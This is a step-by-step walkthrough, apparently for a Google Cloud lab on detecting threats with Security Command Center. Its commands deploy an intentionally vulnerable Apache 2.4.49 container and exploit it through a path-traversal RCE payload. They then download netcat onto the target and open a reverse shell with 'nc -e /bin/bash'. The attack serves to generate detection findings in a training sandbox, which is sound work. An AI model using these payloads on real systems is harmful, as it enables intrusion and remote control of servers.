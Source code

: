 
# Detect and Investigate Threats with Security Command Center [GSP1125]

# If you consider that the video helped you to complete your lab, so please do like and subscribe [Techcps](https://www.youtube.com/@techcps)

* In the GCP Console open the Cloud Shell and enter the following commands:

```
export ZONE=
```
## Note: Go to "IAM & Admin" > "Audit Logs".
* Click the findbar and type: "Cloud Resource Manager API"

* Click the checkbox on "Cloud Resource Manager API" and select "Admin Read" then click save button.

```
gcloud services enable securitycenter.googleapis.com --project=$DEVSHELL_PROJECT_ID

sleep 15

gcloud projects add-iam-policy-binding $DEVSHELL_PROJECT_ID \
--member=user:demouser1@gmail.com --role=roles/bigquery.admin

gcloud projects remove-iam-policy-binding $DEVSHELL_PROJECT_ID \
--member=user:demouser1@gmail.com --role=roles/bigquery.admin

export PROJECT_NUMBER=$(gcloud projects describe $DEVSHELL_PROJECT_ID --format="value(projectNumber)")

gcloud compute instances create instance-1 --project=$DEVSHELL_PROJECT_ID --zone=$ZONE --machine-type=e2-medium --network-interface=network-tier=PREMIUM,stack-type=IPV4_ONLY,subnet=default --metadata=enable-oslogin=true --maintenance-policy=MIGRATE --provisioning-model=STANDARD --scopes=https://www.googleapis.com/auth/cloud-platform --create-disk=auto-delete=yes,boot=yes,device-name=instance-1,image=projects/debian-cloud/global/images/debian-11-bullseye-v20230912,mode=rw,size=10,type=projects/$DEVSHELL_PROJECT_ID/zones/$ZONE/diskTypes/pd-balanced --no-shielded-secure-boot --shielded-vtpm --shielded-integrity-monitoring --labels=goog-ec-src=vm_add-gcloud --reservation-affinity=any
```

```
gcloud dns --project=$DEVSHELL_PROJECT_ID policies create dns-test-policy --description="Please like and subscirbe to techcps" --networks="default" --alternative-name-servers="" --private-alternative-name-servers="" --no-enable-inbound-forwarding --enable-logging

gcloud compute ssh --zone "$ZONE" "instance-1" --tunnel-through-iap --project "$DEVSHELL_PROJECT_ID" --quiet --command "gcloud projects get-iam-policy \$(gcloud config get project) && curl etd-malware-trigger.goog"
```
## Note: Check the progress on task 1 & 2
* Do not move until you get score on tast 1 & 2

```
gcloud compute instances delete instance-1 --zone=$ZONE --quiet

gcloud compute instances create attacker-instance \
--scopes=cloud-platform \
--zone=$ZONE \
--machine-type=e2-medium \
--image-family=ubuntu-2004-lts \
--image-project=ubuntu-os-cloud \
--no-address

gcloud compute networks subnets update default \
--region="${ZONE%-*}" \
--enable-private-ip-google-access
```

## Note: Go to "Compute Engine" > "VM Instances"
* Click the SSH button on attacker-instance

```
export ZONE=
```

```
sudo snap remove google-cloud-cli
curl -O https://dl.google.com/dl/cloudsdk/channels/rapid/downloads/google-cloud-cli-438.0.0-linux-x86_64.tar.gz
tar -xf google-cloud-cli-438.0.0-linux-x86_64.tar.gz
./google-cloud-sdk/install.sh
```

```
. ~/.bashrc
gcloud components install kubectl gke-gcloud-auth-plugin --quiet
gcloud container clusters create test-cluster \
--zone "$ZONE" \
--enable-private-nodes \
--enable-private-endpoint \
--enable-ip-alias \
--num-nodes=1 \
--master-ipv4-cidr "172.16.0.0/28" \
--enable-master-authorized-networks \
--master-authorized-networks "10.128.0.0/20"
```

```
kubectl describe daemonsets container-watcher -n kube-system
```

## Note: This command will take a few minutes to display the output
* IF you didn't get a output then re-run the same command again and again until you get output

* After Getting a Output run the following Command

```
kubectl create deployment apache-deployment \
--replicas=1 \
--image=us-central1-docker.pkg.dev/cloud-training-prod-bucket/scc-labs/ktd-test-httpd:2.4.49-vulnerable

kubectl expose deployment apache-deployment \
--name apache-test-service  \
--type NodePort \
--protocol TCP \
--port 80

NODE_IP=$(kubectl get nodes -o jsonpath={.items[0].status.addresses[0].address})
NODE_PORT=$(kubectl get service apache-test-service \
-o jsonpath={.spec.ports[0].nodePort})

gcloud compute firewall-rules create apache-test-service-fw \
--allow tcp:${NODE_PORT}

gcloud compute firewall-rules create apache-test-rvrs-cnnct-fw --allow tcp:8888
```
```
curl "http://${NODE_IP}:${NODE_PORT}/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh" \
--path-as-is \
--insecure \
--data "echo Content-Type: text/plain; echo; id"

curl "http://${NODE_IP}:${NODE_PORT}/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh" \
--path-as-is \
--insecure \
--data "echo Content-Type: text/plain; echo; ls -l /"

curl "http://${NODE_IP}:${NODE_PORT}/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh" \
--path-as-is \
--insecure \
--data "echo Content-Type: text/plain; echo; hostname"

gsutil cp \
gs://cloud-training/gsp1125/netcat-traditional_1.10-41.1_amd64.deb .
mkdir netcat-traditional
dpkg --extract netcat-traditional_1.10-41.1_amd64.deb netcat-traditional

LOCAL_IP=$(ip -4 addr show ens4 | grep -oP '(?<=inet\s)\d+(\.\d+){3}')
echo ${LOCAL_IP}

python3 -m http.server --bind ${LOCAL_IP} \
--directory ~/netcat-traditional/bin/ 8888 &
```

```
curl http://${LOCAL_IP}:8888

curl "http://${NODE_IP}:${NODE_PORT}/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh" --path-as-is --insecure --data "echo Content-Type: text/plain; echo; curl http://${LOCAL_IP}:8888/nc.traditional -o /tmp/nc"

curl "http://${NODE_IP}:${NODE_PORT}/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh" \
--path-as-is \
--insecure \
--data "echo Content-Type: text/plain; echo; chmod +x /tmp/nc"

```

```
pkill python
```

```
lsof -i -sTCP:LISTEN

curl "http://${NODE_IP}:${NODE_PORT}/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh" \
--path-as-is \
--insecure \
--data "echo Content-Type: text/plain; echo; /tmp/nc"
```

## Note: Open the new terminal

```
nc -nlvp 8888
```

## Note: Go back first terminal

```
curl "http://${NODE_IP}:${NODE_PORT}/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh" --path-as-is --insecure --data "echo Content-Type: text/plain; echo; /tmp/nc ${LOCAL_IP} 8888 -e /bin/bash"
```

## Note: Go back to second terminal

```
ls -l /
```

# Congratulations, you're all done with the lab 😄

# Thanks for watching :)
